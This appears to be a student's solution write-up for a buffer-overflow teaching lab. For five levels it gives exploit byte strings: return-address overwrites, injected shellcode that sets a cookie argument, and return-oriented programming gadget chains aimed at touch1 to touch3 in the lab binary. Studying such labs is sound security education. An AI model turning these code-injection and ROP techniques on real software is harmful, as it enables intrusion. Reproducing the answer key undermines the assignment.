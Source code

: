 # Solution With Notes

## Level 1
- touch1 address: 0x00000000004017c0

```
00000000004017a8 <getbuf>:
  4017a8:	48 83 ec 28          	sub    $0x28,%rsp      // Allocates 28 bytes
  ...
```

**String**: 
```
00 00 00 00 00 00 00 00 /* 0x28 filler characters */
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 
c0 17 40 00 00 00 00 00 /* touch1 address */
```

## Level 2
- touch2 address: 0x00000000004017ec

<ins> Exploit code:
```
   0:	bf fa 97 b9 59       	mov    $0x59b997fa, %edi    // Cookie value
   5:	c3                   	ret    
```

<ins> Format: 
  1. Filler
  2. Address of exploit code, *%rsp on getbuf ret
  3. Address of touch2, *%rsp on exploit code ret
  4. Exploit code

- Exploit code address: getbuf starting %rsp + 16 = 0x55685fc0 + 0x10 = 0x55685fd0

**String**:
```
00 00 00 00 00 00 00 00 /* 0x28 filler characters */
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
d0 5f 68 55 00 00 00 00 /* exploit code address */
ec 17 40 00 00 00 00 00 /* touch2 address */
bf fa 97 b9 59 c3       /* exploit code */
```

## Level 3
- touch3 address: 0x00000000004018fa

<ins> Format: 
  1. Filler
  2. Address of exploit code
  4. Address of touch3
  5. Cookie string, 9 bytes
  6. Exploit code

- Exploit code address: getbuf starting %rsp + 16 + 9 = 0x55685fd9
- Cookie string: "59b997fa" -> hex -> 35 39 62 39 39 37 66 61 00
- Cookie string address: getbuf starting %rsp + 16 = 0x55685fd0

<ins> Exploit code:
```
   0:	bf d0 5f 68 55       	mov    $0x55685fd0, %edi      // Set argument 1 to point to cookie string (upper 32 bits set to 0)
   5:	c3                   	ret    
```

**String**:
```
00 00 00 00 00 00 00 00 /* 0x28 filler characters */
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
d9 5f 68 55 00 00 00 00 /* exploit code address */
fa 18 40 00 00 00 00 00 /* touch3 address */
35 39 62 39 39 37 66 61 /* cookie string */
00
bf d0 5f 68 55 c3       /* exploit code */
```

## Level 4
- touch2 address: 0x00000000004017ec

| Address   | Operation |
| -------- | ------- | 
| 4019a2    | movq %rax, %rdi    |
| 4019ab    | popq %rax    |
    
    

**String**:
```
00 00 00 00 00 00 00 00 /* 0x28 filler characters */
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
ab 19 40 00 00 00 00 00 /* popq %rax */
fa 97 b9 59 00 00 00 00 /* cookie value */
a2 19 40 00 00 00 00 00 /* movq %rax, %rdi */
ec 17 40 00 00 00 00 00 /* goto touch2 */
```

## Level 5
- touch3 address: 0x00000000004018fa

| Address   | Operation |
| -------- | ------- | 
| 4019a2    | movq %rax, %rdi    |
| 401a06    | movq %rsp, %rax    |
| 4019dd    | movl %eax, %edx    |
| 401a34    | movl %edx, %ecx    |
| 401a13    | movl %ecx, %esi    |
| 4019ab    | popq %rax    |

- Useful function: add_xy, address: 0x00000000004019d6

**String**:
```
/* 0x28 filler characters */
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00

/* Get offset and move it to %rsi */
ab 19 40 00 00 00 00 00 /* popq %rax, %rax = offset value */
40 00 00 00 00 00 00 00 /* offset value = 0x40 */
dd 19 40 00 00 00 00 00 /* movl %eax, %edx */
34 1a 40 00 00 00 00 00 /* movl %edx, %ecx */
13 1a 40 00 00 00 00 00 /* movl %ecx, %esi */

/* Get pointer to 2 lines below this one, add it to offset to get the pointer to cookie string */
06 1a 40 00 00 00 00 00 /* movq %rsp, %rax */
a2 19 40 00 00 00 00 00 /* movq %rax, %rdi */
d6 19 40 00 00 00 00 00 /* goto add_xy */

a2 19 40 00 00 00 00 00 /* movq %rax, %rdi */
fa 18 40 00 00 00 00 00 /* goto touch3 */

/* cookie string */
35 39 62 39 39 37 66 61
00
```
